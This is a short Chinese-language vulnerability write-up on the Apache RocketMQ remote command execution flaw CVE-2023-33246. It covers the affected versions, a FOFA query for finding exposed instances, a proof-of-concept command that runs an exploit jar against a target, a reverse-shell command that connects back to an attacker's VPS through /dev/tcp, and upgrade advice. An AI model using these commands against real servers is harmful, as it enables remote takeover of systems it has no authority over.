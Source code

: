 # Apache RocketMQ RCE 漏洞 CVE-2023-33246

## 漏洞描述

RocketMQ 是阿里巴巴在2012年开发的分布式消息中间件，专为万亿级超大规模的消息处理而设计，具有高吞吐量、低延迟、海量堆积、顺序收发等特点。

RocketMQ 5.1.0 及以下版本，在一定条件下存在远程命令执行风险。RocketMQ 的 NameServer、Broker、Controller 等多个组件暴露在外网且缺乏权限验证，攻击者可以利用该漏洞利用更新配置功能以 RocketMQ 运行的系统用户身份执行命令。此外，攻击者可以通过伪造 RocketMQ 协议内容来达到同样的效果。

## 漏洞影响

```
Apache RocketMQ <= 5.1.0
Apache RocketMQ <= 4.9.5
```

## FOFA

```
title="RocketMQ"
```

## 漏洞复现

poc：

```
java -jar CVE-2023-33246.jar -ip "target-ip" -cmd "command"
```

反弹 shell：

```
java -jar CVE-2023-33246.jar -ip "target-ip" -cmd "bash -i >& /dev/tcp/your-vps/9999 0>&1"
```

## 修复建议

目前官方已发布安全修复更新，受影响用户可以升级到Apache RocketMQ 5.1.1或者4.9.6。

链接：https://rocketmq.apache.org/download/
